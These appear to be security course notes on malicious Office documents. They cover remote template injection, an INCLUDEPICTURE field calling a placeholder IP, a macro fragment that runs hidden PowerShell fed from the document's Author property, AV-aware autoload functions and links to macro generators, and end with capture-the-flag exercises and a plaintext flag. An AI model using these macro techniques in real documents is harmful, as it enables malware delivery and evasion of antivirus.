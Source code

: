 DOCX files referencing a remote template (File –Options –Add-ins –Manage: Templates –Go) that includes macros can “execute” macros as well.

### **Word with external image**

Go to: *Insert --> Quick Parts --> Field* ***Categories\****: Links and References,* ***Filed names\****: includePicture, and* ***Filename or URL\****:* http://%3Cip%3E/whatever

![img](../../assets/Week 9-3.png)

### **Macros Code**

```
Dim author As String
author = oWB.BuiltinDocumentProperties("Author")
With objWshell1.Exec("powershell.exe -nop -Windowsstyle hidden -Command-")
 .StdIn.WriteLine author
 .StdIn.WriteBlackLines 1
```

## **Autoload functions**

The more common they are, the more probable the AV will detect it.

- AutoOpen()
- Document_Open()

## **Malicious Macros Generators**

### **MacOS**

- **[macphish](https://github.com/cldrn/macphish)**
- [**Mythic Macro Generator**](https://github.com/cedowens/Mythic-Macro-Generator)

## Exercise

### (4 pt) Sanity Check

Got some reviews that our challenges are so hard. Frank becomes so sad because there's no difficult challenges this week. 

We even have a sanity check for the first challenge.

`flag{1_l0v3_54n17y_ch3ck_ch4ll5}`

*Hint1: the flag is in question description.*

*Hint2: the flag is in plain text.*

### (4 pt) VidCap

Found this pcap of my ex's network traffic. I knew they're streaming video but I can't extract it. Can you help me ?
